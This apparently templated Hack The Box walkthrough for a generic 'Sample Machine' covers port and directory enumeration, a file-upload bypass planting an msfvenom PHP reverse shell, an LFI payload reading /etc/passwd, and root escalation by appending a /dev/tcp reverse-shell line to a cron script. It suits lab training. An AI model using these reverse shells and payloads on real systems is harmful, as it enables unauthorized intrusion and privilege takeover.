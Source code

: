 
---
title: "Sample HTB Machine - Walkthrough"
description: hello
summary: hello
date: 2025-07-23
draft: false
tags: ["htb", "linux", "web", "privilege-escalation"]
categories: ["writeups"]
difficulty: ["Medium"]
platform: ["Linux"]
---

![MACHINE](https://app.hackthebox.com/machines/sample)

## Generic Information

**Name of the Machine**: Sample Machine  
**Machine IP**: 10.10.10.XXX  
**Operating System**: Linux  
**Difficulty**: Medium  
**Publication Date**: July 23, 2025  

---

## Reconnaissance - Enumeration

### Service Scan
```bash
nmap -sCV -vv 10.10.10.XXX
```

Key findings from the service scan:
- Port 22: SSH OpenSSH 8.2p1
- Port 80: HTTP Apache 2.4.41
- Port 443: HTTPS Apache 2.4.41

### All Ports Scan
```bash
nmap -sS -T4 -p- -vv 10.10.10.XXX
```

Additional ports discovered:
- Port 8080: HTTP Alternative service

### Directory Busting
```bash
gobuster dir -w /usr/share/dirbuster/directory-list-2.3-small.txt -u http://sample.htb/ -t 20
```

Interesting directories found:
- /admin
- /uploads
- /backup

### Subdomain Enumeration
```bash
ffuf -w /usr/share/wordlists/discovery/subdomains-top1million-20000.txt -u http://sample.htb -H "Host: FUZZ.sample.htb"
```

Subdomains discovered:
- admin.sample.htb
- api.sample.htb

---

## Exploit #1 - Web Application Vulnerability

### Initial Access Vector

The web application running on port 80 contains a file upload vulnerability that allows arbitrary file upload without proper validation.

**Steps:**
1. Navigate to `/uploads` endpoint
2. Upload a PHP reverse shell disguised as an image
3. Access the uploaded file to trigger the shell

```bash
# Generate reverse shell
msfvenom -p php/reverse_php LHOST=10.10.14.XXX LPORT=4444 -f raw > shell.php

# Set up listener
nc -lvnp 4444
```

### Exploitation Process

1. **File Upload Bypass**: Modified the Content-Type header to `image/jpeg`
2. **Shell Execution**: Accessed `http://sample.htb/uploads/shell.php`
3. **Initial Foothold**: Gained access as `www-data` user

---

## Exploit #2 - Local File Inclusion

### Vulnerability Analysis

The application's file parameter is vulnerable to Local File Inclusion (LFI), allowing access to sensitive system files.

**Payload:**
```
http://sample.htb/index.php?file=../../../../etc/passwd
```

### Information Gathering

Through LFI, discovered:
- User accounts in `/etc/passwd`
- SSH keys in `/home/user/.ssh/`
- Application configuration files

---

## Privilege Escalation

### Enumeration

After gaining initial access, performed standard privilege escalation enumeration:

```bash
# Check sudo permissions
sudo -l

# Look for SUID binaries
find / -perm -4000 2>/dev/null

# Check for interesting files
find / -name "*.conf" -type f 2>/dev/null
```

### Escalation Vector

Discovered that the `backup` script runs as root via cron job and is writable by the current user.

**Steps:**
1. Modify the backup script to include a reverse shell
2. Wait for the cron job to execute
3. Receive root shell

```bash
# Add to backup script
echo 'bash -i >& /dev/tcp/10.10.14.XXX/5555 0>&1' >> /opt/backup.sh

# Set up listener
nc -lvnp 5555
```

## Key Takeaways

1. **File Upload Security**: Always validate file types and contents, not just extensions
2. **Input Validation**: Properly sanitize user input to prevent LFI attacks
3. **Privilege Management**: Regularly audit file permissions and cron jobs
4. **Defense in Depth**: Multiple security layers could have prevented this compromise

---

*This writeup demonstrates common web application vulnerabilities and privilege escalation techniques for educational purposes.*
